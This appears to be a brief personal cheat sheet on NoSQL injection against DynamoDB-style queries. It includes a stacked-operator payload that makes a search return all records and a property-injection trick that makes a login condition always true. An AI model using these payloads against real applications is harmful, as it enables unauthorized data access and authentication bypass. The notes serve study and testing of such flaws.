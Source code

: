 ## NoSQL injection on search field (stacked query injection)  
Case: We insert a `"` and return the below error:  
`Invalid JSON: {"Name": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": """}]}}`  
this json is created upon sending our input. This opens up a vector to inject another Nosql Query on top which would return all values  
`alice"}],"ComparisonOperator": "GT","AttributeValueList": [{"S": "*`  
The above results in the total json as below:  
`{"Name": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": "alice"}],"ComparisonOperator": "GT","AttributeValueList": [{"S": "*"}]}}`  

## NoSQL Auth Bypass  
I need to read a bit more on this one, source is [here](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.nosql_injection_dynamodb)  
Case: A GET req looks like /index.jsp?property=username&value=peter&password=dinklage  
As the constructed query will look like `Username = :value AND Password = :password`, we set property to `:value = :value OR :value` which sould cause the underling WHERE condition to always return true  
